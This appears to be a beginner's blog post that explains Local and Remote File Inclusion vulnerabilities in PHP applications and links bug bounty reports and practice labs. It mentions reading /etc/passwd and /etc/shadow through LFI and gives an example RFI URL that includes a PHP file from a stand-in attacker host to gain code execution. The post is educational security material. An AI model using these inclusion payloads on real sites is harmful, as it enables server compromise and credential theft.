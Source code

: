 # <center> RFI and LFI, how to find them and what’s the difference between them? </center>

Hello everyone! <br> Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code> include() </code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
<br>
Let's see now:
<br>
In the easiest way if we want to explain it, we'll say it like this <br>
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
<br>
<center> <img src="lfi-example.PNG"/> </center>
<br>
On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in 
RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
You could execute malicious code from the <code> file.php </code> file and use it for evil intention. <br>
<br>
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂. <br>
<br>
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br> <br>
<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br> <br>
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br> <br>

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br> <br>
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br> <br>
<a href="https://dvwa.co.uk/"> DVWA </a> <br> <br>

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer">Twitter</a>
 so you get notified when I post another blog. Oh yeah I almost forgot, don't forget to join a <a href="discord.gg/bugbounty">Discord Bug Bounty</a> server with great community there, you can ask
 for help there if you need it.

